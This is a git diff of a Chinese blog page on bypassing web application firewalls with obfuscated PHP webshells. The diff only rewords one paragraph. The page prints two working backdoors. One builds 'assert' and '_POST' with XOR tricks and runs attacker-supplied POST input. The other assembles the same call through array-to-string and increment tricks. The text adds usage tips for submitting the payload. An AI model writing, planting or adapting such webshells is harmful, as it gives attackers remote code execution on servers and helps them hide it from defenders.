

Site updated: 2017-11-17 21:30:08

diff --git a/2017/10/11/bypasswaf-for-webshell/index.html b/2017/10/11/bypasswaf-for-webshell/index.html
@@ -181,7 +181,7 @@
 <p><img src="/img/str_rot13 spec.png" alt=""><br></p>
 <p>利用url编码以及自定义加解密实现的免杀,其实也有点儿类似编码,因为是自己设置的加密,所以只有通信的双方知道,这样一来waf就很难在未解密数据中识别出webshell特征,不过人眼还是很容易就看出来的<br><figure class="highlight"><table><tr><td class="gutter"><pre><div class="line">1</div></pre></td><td class="code"><pre><div class="line">不实用</div></pre></td></tr></table></figure></p>
 <p>利用ASCII码转换,消除特征,如chr…比较简单,也比较原始,这里就不多说了,实战也不推荐用,肉眼扫一下就看出来了<br><figure class="highlight"><table><tr><td class="gutter"><pre><div class="line">1</div></pre></td><td class="code"><pre><div class="line">不实用</div></pre></td></tr></table></figure></p>
-<p>利用 xor [异或] ~[取反] 注入此类的位运算,实战中依然不推荐,只要是个正常人基本都能看出来这是啥,实际中记得先把下面的url编码解码过来<br><figure class="highlight ruby"><table><tr><td class="gutter"><pre><div class="line">1</div><div class="line">2</div><div class="line">3</div><div class="line">4</div><div class="line">5</div></pre></td><td class="code"><pre><div class="line">&lt;?php</div><div class="line">$_=(<span class="string">'%01'</span>^<span class="string">'`'</span>).(<span class="string">'%13'</span>^<span class="string">'`'</span>).(<span class="string">'%13'</span>^<span class="string">'`'</span>).(<span class="string">'%05'</span>^<span class="string">'`'</span>).(<span class="string">'%12'</span>^<span class="string">'`'</span>).(<span class="string">'%14'</span>^<span class="string">'`'</span>); <span class="regexp">//</span> $_=<span class="string">'assert'</span>;</div><div class="line">$__=<span class="string">'_'</span>.(<span class="string">'%0D'</span>^<span class="string">']'</span>).(<span class="string">'%2F'</span>^<span class="string">'`'</span>).(<span class="string">'%0E'</span>^<span class="string">']'</span>).(<span class="string">'%09'</span>^<span class="string">']'</span>); <span class="regexp">//</span> $__=<span class="string">'_POST'</span>;</div><div class="line">$___=$$_<span class="number">_</span>;</div><div class="line">$_($___[<span class="number">_</span>]); <span class="regexp">//</span> assert($_POST[<span class="number">_</span>]);</div></pre></td></tr></table></figure></p>
+<p>利用 xor [^ 异或] ~[取反] 注入此类的位运算,实战中依然不推荐,只要是个正常人基本都能看出来这是啥,实际中记得先把下面的url编码解码过来,务必注意两个特殊字符要用双引号包起来,hackbar上面框中的参数可以不用,只要POST里的参数传对了就行<br><figure class="highlight ruby"><table><tr><td class="gutter"><pre><div class="line">1</div><div class="line">2</div><div class="line">3</div><div class="line">4</div><div class="line">5</div></pre></td><td class="code"><pre><div class="line">&lt;?php</div><div class="line">$_=(<span class="string">'%01'</span>^<span class="string">'`'</span>).(<span class="string">'%13'</span>^<span class="string">'`'</span>).(<span class="string">'%13'</span>^<span class="string">'`'</span>).(<span class="string">'%05'</span>^<span class="string">'`'</span>).(<span class="string">'%12'</span>^<span class="string">'`'</span>).(<span class="string">'%14'</span>^<span class="string">'`'</span>); <span class="regexp">//</span> $_=<span class="string">'assert'</span>;</div><div class="line">$__=<span class="string">'_'</span>.(<span class="string">'%0D'</span>^<span class="string">']'</span>).(<span class="string">'%2F'</span>^<span class="string">'`'</span>).(<span class="string">'%0E'</span>^<span class="string">']'</span>).(<span class="string">'%09'</span>^<span class="string">']'</span>); <span class="regexp">//</span> $__=<span class="string">'_POST'</span>;</div><div class="line">$___=$$_<span class="number">_</span>;</div><div class="line">$_($___[<span class="number">_</span>]); <span class="regexp">//</span> assert($_POST[<span class="number">_</span>]);</div></pre></td></tr></table></figure></p>
 <p><img src="/img/xor webshell.png" alt=""><br></p>
 <p>数组特性,这个就更不推荐了,看似花哨,但正常的项目代码中是根本不可能出现这些东西的,很明显,这无疑是在故意告诉别人,你来了,那,这就是我的webshell,请删除,如果单单只是想免杀,回调和反序列也许会更好,相对比价隐蔽,完全不用这么招摇过市的搞<br><figure class="highlight ruby"><table><tr><td class="gutter"><pre><div class="line">1</div><div class="line">2</div><div class="line">3</div><div class="line">4</div><div class="line">5</div><div class="line">6</div><div class="line">7</div><div class="line">8</div><div class="line">9</div><div class="line">10</div><div class="line">11</div><div class="line">12</div><div class="line">13</div><div class="line">14</div><div class="line">15</div><div class="line">16</div><div class="line">17</div><div class="line">18</div><div class="line">19</div><div class="line">20</div><div class="line">21</div><div class="line">22</div><div class="line">23</div><div class="line">24</div><div class="line">25</div><div class="line">26</div><div class="line">27</div><div class="line">28</div><div class="line">29</div><div class="line">30</div><div class="line">31</div><div class="line">32</div><div class="line">33</div></pre></td><td class="code"><pre><div class="line">&lt;?php</div><div class="line">$_=[];</div><div class="line">$_=@<span class="string">"$_"</span>; <span class="regexp">//</span> $_=<span class="string">'Array'</span>;</div><div class="line">$_=$_[<span class="string">'!'</span>==<span class="string">'@'</span>]; <span class="regexp">//</span> $_=$_[<span class="number">0</span>];</div><div class="line">$___=$_; <span class="regexp">//</span> A</div><div class="line">$__=$_;</div><div class="line">$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;</div><div class="line">$___.=$__; <span class="regexp">//</span> S</div><div class="line">$___.=$__; <span class="regexp">//</span> S</div><div class="line">$__=$_;</div><div class="line">$__++;$__++;$__++;$__++; <span class="regexp">//</span> E </div><div class="line">$___.=$__;</div><div class="line">$__=$_;</div><div class="line">$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; <span class="regexp">//</span> R</div><div class="line">$___.=$__;</div><div class="line">$__=$_;</div><div class="line">$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; <span class="regexp">//</span> T</div><div class="line">$___.=$__;</div><div class="line">$____=<span class="string">'_'</span>;</div><div class="line">$__=$_;</div><div class="line">$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; <span class="regexp">//</span> P</div><div class="line">$____.=$__;</div><div class="line">$__=$_;</div><div class="line">$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; <span class="regexp">//</span> O</div><div class="line">$____.=$__;</div><div class="line">$__=$_;</div><div class="line">$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; <span class="regexp">//</span> S</div><div class="line">$____.=$__;</div><div class="line">$__=$_;</div><div class="line">$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; <span class="regexp">//</span> T</div><div class="line">$____.=$__;</div><div class="line">$_=$$___<span class="number">_</span>;</div><div class="line">$___($_[req]); <span class="regexp">//</span> ASSERT($_POST[<span class="number">_</span>]);</div></pre></td></tr></table></figure></p>
 <p><img src="/img/array spce webshell.png" alt=""><br></p>
